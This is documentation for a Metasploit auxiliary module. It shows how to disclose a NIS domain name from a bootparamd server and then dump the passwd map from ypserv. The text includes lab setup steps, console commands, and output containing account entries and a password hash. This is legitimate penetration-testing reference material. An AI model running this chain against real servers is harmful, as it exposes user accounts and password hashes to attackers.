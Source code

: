 ## Intro

From the `bootparamd(8)` man page:

> bootparamd is a server process that provides information to diskless clients necessary for booting. It consults the /etc/bootparams file to find the information it needs.

The module documented within will allow a tester to disclose the NIS
domain name from a server running `bootparamd`. After knowing the domain
name, the tester can follow up with `auxiliary/gather/nis_ypserv_map` to
dump a map from a compatible NIS server (running as `ypserv`).

## Setup

Set up NIS as per <https://help.ubuntu.com/community/SettingUpNISHowTo>.
If the link is down, you can find it via the Wayback Machine.

After that is done, install `bootparamd` however your OS provides it.

Make sure you add a client to the `bootparams` file, which is usually at
`/etc/bootparams`.

Here is an example `bootparams` file (courtesy of
[@bcoles](https://github.com/bcoles)):

```
clientname root=nfsserver:/export/clientname/root
```

You can read the `bootparams(5)` man page for more info.

Lastly, the client should be added to `/etc/hosts` if it isn't already
resolvable.

## Options

**PROTOCOL**

Set this to either TCP or UDP. UDP is the default due to `bootparamd`.

**CLIENT**

Set this to the address of a client in the target's `bootparams` file.
Usually this is a host within the same network range as the target.

**XDRTimeout**

Set this to the timeout in seconds for XDR decoding of the response.

## Usage

```
msf > use auxiliary/gather/nis_bootparamd_domain
msf auxiliary(gather/nis_bootparamd_domain) > set rhost 192.168.33.10
rhost => 192.168.33.10
msf auxiliary(gather/nis_bootparamd_domain) > set client 192.168.33.10
client => 192.168.33.10
msf auxiliary(gather/nis_bootparamd_domain) > run

[+] 192.168.33.10:111 - NIS domain name for host ubuntu-xenial (192.168.33.10) is gesellschaft
[*] Auxiliary module execution completed
msf auxiliary(gather/nis_bootparamd_domain) >
```

After disclosing the domain name, you can use
`auxiliary/gather/nis_ypserv_map` to dump a map from a compatible NIS
server.

```
msf auxiliary(gather/nis_bootparamd_domain) > use auxiliary/gather/nis_ypserv_map
msf auxiliary(gather/nis_ypserv_map) > set rhost 192.168.33.10
rhost => 192.168.33.10
msf auxiliary(gather/nis_ypserv_map) > set domain gesellschaft
domain => gesellschaft
msf auxiliary(gather/nis_ypserv_map) > run

[+] 192.168.33.10:111 - Dumping map passwd.byname on domain gesellschaft:
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
ubuntu:$6$LXFAVGTO$yiCXi1KjLynOrapuhJE7tKnvdwknDMKiKM7Z8ZB19ht6CHmsS.CbUTm8q0cy5fFHEqA.Sg4Acl.0UtY.Y0JNE1:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
games:*:5:60:games:/usr/games:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
systemd-resolve:*:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
systemd-network:*:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
uuidd:*:108:112::/run/uuidd:/bin/false
dnsmasq:*:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
root:*:0:0:root:/root:/bin/bash
sshd:*:110:65534::/var/run/sshd:/usr/sbin/nologin
systemd-bus-proxy:*:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
messagebus:*:107:111::/var/run/dbus:/bin/false
_apt:*:105:65534::/nonexistent:/bin/false
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
syslog:*:104:108::/home/syslog:/bin/false
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
systemd-timesync:*:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
pollinate:*:111:1::/var/cache/pollinate:/bin/false
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
lxd:*:106:65534::/var/lib/lxd/:/bin/false

[*] Auxiliary module execution completed
msf auxiliary(gather/nis_ypserv_map) >
```
